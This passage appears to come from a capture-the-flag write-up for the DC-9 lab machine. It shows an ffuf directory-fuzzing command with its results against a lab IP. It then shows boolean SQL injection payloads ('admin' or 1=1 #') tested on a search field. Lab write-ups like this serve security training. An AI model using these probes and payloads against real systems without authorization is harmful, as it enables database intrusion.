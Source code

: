 ### FFUF 


The results of ffuf don't appear to be much promising :

```bash
ffuf -u http://192.168.1.22/FUZZ -e .php -w /oscp/wl/raft-medium-words.txt -mc 200,301,302  -c 

search.php              [Status: 200, Size: 1091, Words: 47, Lines: 50, Duration: 17ms]
includes                [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 19ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 27ms]
index.php               [Status: 200, Size: 917, Words: 43, Lines: 43, Duration: 37ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 306ms]
manage.php              [Status: 200, Size: 1210, Words: 43, Lines: 51, Duration: 36ms]
display.php             [Status: 200, Size: 2961, Words: 199, Lines: 42, Duration: 408ms]
results.php             [Status: 200, Size: 1056, Words: 43, Lines: 55, Duration: 408ms]
welcome.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 388ms]
session.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 414ms]
```

## SQL Injection :
So we will focus on the web application :

The "search.php" endpoint gives as a userinput field ,so my bughunting instincts tells me to test for sqlinjection , by submitting a simple payload that evaluate to always True 

```bash
admin' or 1=1 #
```
We can see all the records .

But when we submit An always false payload 

```bash
admin' or 1=2 # 
```
we get nothing . AKA ZERO RESULTS 

![search](/assets/images/dc9/search.png)
